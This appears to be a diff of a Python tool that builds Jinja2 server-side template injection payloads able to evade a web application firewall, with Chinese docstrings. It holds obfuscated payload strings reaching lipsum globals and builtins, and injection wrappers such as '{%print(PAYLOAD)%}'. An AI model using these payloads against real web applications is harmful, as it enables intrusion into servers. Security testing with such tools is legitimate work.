 ```diff
+#     print(ints, var_names, payloads)
+#     if len(ints) == 0:
+#         logger.warning("No IntVars For YOU!")
+#     return dict(zip(var_names, payloads)), dict(zip(var_names, ints))
+
+
+# def get_str_context(waf_func):
+#     str_vars = [
+#         ("un", "_", "{%set un=((({}|select()|trim|list)[24]))%}"),
+#         ("perc", "%", "{%set perc=(lipsum[((({}|select()|trim|list)[24]))*2" +
+#          "+dict(globals=x)|join+((({}|select()|trim|list)[24]))*2]" +
+#          "[((({}|select()|trim|list)[24]))*2+dict(builtins=x)" +
+#          "|join+((({}|select()|trim|list)[24]))*2][dict(chr=x)|join](37))%}"),
+#         # ("fc", "{:c}", "{%set fc={{{1:2}|string|replace({1:2}|string|batch(4)|first|last,{}|join)|replace(1|string,{}|join)|replace(2|string,dict(c=1)|join)}}%}")
+#     ]
+#     str_vars = [tpl for tpl in str_vars if waf_func(tpl[2])]
+#     return {var_name: payload for var_name, _, payload in str_vars}, {var_name: var_value for var_name, var_value, _ in str_vars}
 
 
 def get_outer_pattern(waf_func):
     outer_payloads = [
         ("{{}}", "{{PAYLOAD}}", True),
         ("{%print()%}", "{%print(PAYLOAD)%}", True),
         ("{%if()%}{%endif%}", "{%if(PAYLOAD)%}{%endif%}", False),
@@ -63,40 +64,38 @@
     @callback.setter
     def callback(self, callback):
         self._callback = callback
         if self.payload_gen:
             self.payload_gen.callback = callback
 
     def do_prepare(self) -> bool:
-        """生成上下文payload，并准备作用payload的最外层（一般为双花括号{{}}）
+        """准备作用payload的最外层（一般为双花括号{{}}），过滤所有可用的payload
 
         Returns:
-            bool: 是否生成成功，失败则无法生成payload。有时生成的
+            bool: 是否生成成功，失败则无法生成payload。
         """
         if self.prepared:
             return True
 
-        int_payload, int_context = get_int_context(self.waf_func)
-        str_payload, str_context = get_str_context(self.waf_func)
+        self.context_payload = filter_by_waf(context_vars_all, self.waf_func)
+
+        self.context = {var_name: var_value for _, d in self.context_payload.items() for var_name, var_value in d.items()}
 
-        self.context_payload, self.context = int_payload + \
-            str_payload, {**int_context, **str_context}
         self.outer_pattern, self.will_print = get_outer_pattern(self.waf_func)
         if not self.outer_pattern:
             return False
         if self.will_print:
             logger.info(f"use {colored('blue', self.outer_pattern)}")
         else:
             logger.warning(
                 f"use {colored('blue', self.outer_pattern)}, which {colored('red', 'will not print')} your result!")
 
```